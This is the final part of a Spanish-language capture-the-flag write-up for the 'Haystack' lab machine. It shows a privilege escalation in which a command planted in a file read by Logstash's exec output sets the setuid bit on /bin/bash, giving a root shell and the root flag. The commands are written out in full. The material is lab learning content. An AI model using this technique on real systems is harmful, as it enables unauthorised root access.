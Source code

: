```bash
/etc/logstash/conf.d
bash-4.2$ ls -la
total 16
drwxrwxr-x. 2 root kibana   62 jun 24  2019 .
drwxr-xr-x. 3 root root   4096 jun 18  2019 ..
-rw-r-----. 1 root kibana  131 jun 20  2019 filter.conf
-rw-r-----. 1 root kibana  186 jun 24  2019 input.conf
-rw-r-----. 1 root kibana  109 jun 24  2019 output.conf
```
Mmmmm curioso, voy a revisar esos archivos .conf:
```bash
bash-4.2$ cat input.conf
input {
	file {
		path => "/opt/kibana/logstash_*"
		start_position => "beginning"
		sincedb_path => "/dev/null"
		stat_interval => "10 second"
		type => "execute"
		mode => "read"
	}
}
bash-4.2$ cat filter.conf
filter {
	if [type] == "execute" {
		grok {
			match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
		}
	}
}
bash-4.2$ cat output.conf 
output {
	if [type] == "execute" {
		stdout { codec => json }
		exec {
			command => "%{comando} &"
		}
	}
}
```
Tiene toda la pinta que el conjunto de un proceso que se debe ejecutar a intervalos regulares de tiempo. Podríamos comprobarlo lanzando la herramienta pspy por ejemplo, pero no hará falta, lo voy a suponer. 

Parece que busca un fichero en /opt/kibana que empieze por logstash_LOQUESEA y que contenga (po lo que pone en filter.conf) esta  "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}", despúes se ejecutará ese comando.
```bash
ash-4.2$ vim /opt/kibana/logstash_ese
Ejecutar comando : chmod u+s /bin/bash

bash-4.2$ ls -l /bin/bash
-rwsr-xr-x. 1 root root 964608 oct 30  2018 /bin/bash
bash-4.2$ bash -p
bash-4.2# whoami
root
bash-4.2# cat /root/root.txt
55ca3e58cc55bff592d09b*******
```
Y máquina Haystack hackeada!!!!. Vaya telita con la imagen, peeero bueeeeno ha estado chula, es un CTF y tienes que pensar en que esto puede pasar. He aprendido que aunque un servicio este ligado a otro no quiere decir que corran mismo puerto, me refiero al ElasticSearch y el Kibana. Es importante enumerar y seguir probando, esta vez fue con la ayuda de hacktricks.


